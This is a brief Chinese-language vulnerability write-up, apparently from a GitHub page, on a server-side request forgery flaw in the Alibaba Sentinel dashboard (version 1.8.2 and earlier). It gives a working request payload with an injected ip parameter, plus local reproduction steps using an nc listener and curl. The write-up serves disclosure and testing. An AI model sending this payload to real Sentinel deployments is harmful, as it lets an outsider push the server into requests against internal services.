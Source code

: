 ### SSRF
影响范围：
Sentinel <= 1.8.2
```
/registry/machine?app=SSRF-TEST&appType=0&version=0&hostname=TEST&ip=localhost:12345%23&port=0
```

> 到github拉取开源代码https://github.com/alibaba/Sentinel
> 运行Sentinel/sentinel-dashboard/src/main/java/com/alibaba/csp/sentinel/dashboard/DashboardApplication.java即可启动sentinel-dashboard后台
> 本地监听12345端口，nc -lvvp 12345
> 发起对本地localhost端口为12345的SSRF GET攻击，curl -XGET 'http://127.0.0.1:8080/registry/machine?app=SSRF-TEST&appType=0&version=0&hostname=TEST&ip=localhost:12345%23&port=0'


Ref:
- https://github.com/alibaba/Sentinel/issues/2451
